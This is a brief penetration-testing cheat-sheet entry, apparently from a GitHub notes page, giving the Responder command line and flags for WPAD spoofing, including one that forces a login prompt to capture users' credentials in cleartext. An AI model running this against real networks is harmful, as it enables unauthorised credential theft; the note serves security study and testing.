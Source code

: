 Responder

```
responder -i <AttackingIP> -w

-i specific ip address
-I specific network interface
-w Starts WPAD proxy server. For computers looking for WPAD responder will send its information
-F (this forces a login prompt for users to grab creds in cleartext) 
-b HTTP authentication ( prompts when users use IE)
-r needed to rectify -b errors

Note don't use -b and/or -r in a production environment
```



References:

https://www.youtube.com/watch?v=sAr4PBR7EUE



